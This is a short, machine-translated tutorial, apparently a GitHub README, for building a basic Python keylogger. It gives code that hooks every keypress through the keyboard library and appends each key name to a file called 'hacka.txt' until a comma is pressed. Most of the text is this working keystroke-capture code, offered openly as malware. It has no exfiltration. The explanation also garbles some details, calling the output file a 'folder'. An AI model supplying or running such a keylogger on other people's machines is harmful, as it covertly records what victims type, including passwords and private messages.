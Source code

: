 # Creacion-de-un-Keylogger

The first thing we do is import the KEYBOARD with the command “import keyboard.”

Then we create a function called saca where we will put an event as follows:

def saca(event):
Inside the function, we put the following:

    with open(‘hacka.txt’,'a')as file:
    
        file.write(f“{event.name}”)
        
This will allow us to create a folder called “hacka” and put all the content we want in it.

The “file.write(f”{event.name}“)” will be used to save it with the name of the event, which is Keyboard. 


This command “keyboard.on_press(saca)” is used so that each key pressed is saved in the function.


This line “keyboard.wait(”,“)” is used so that the program ends when the comma (,) is pressed


Translated with DeepL.com (free version)

